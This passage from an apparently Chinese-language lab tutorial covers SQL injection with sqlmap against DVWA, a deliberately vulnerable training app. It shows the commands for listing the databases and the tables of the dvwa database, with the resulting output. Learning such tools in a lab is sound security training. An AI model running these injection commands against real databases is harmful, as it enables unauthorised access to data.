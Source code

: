 <p align="center"><img src="img/1/25.png" width="800px"></p>

5. 注出所有数据库信息

```bash
python3 sqlmap.py -r 1.txt --dbs
```

<p align="center"><img src="img/1/26.png" width="800px"></p>

查询出所有库：

```bash
available databases [2]:
[*] dvwa
[*] information_schema
```


6. 选择 `dvwa` 数据库注出表名

```
python3 sqlmap.py -r 1.txt -D dvwa --tables
```

<p align="center"><img src="img/1/27.png" width="800px"></p>
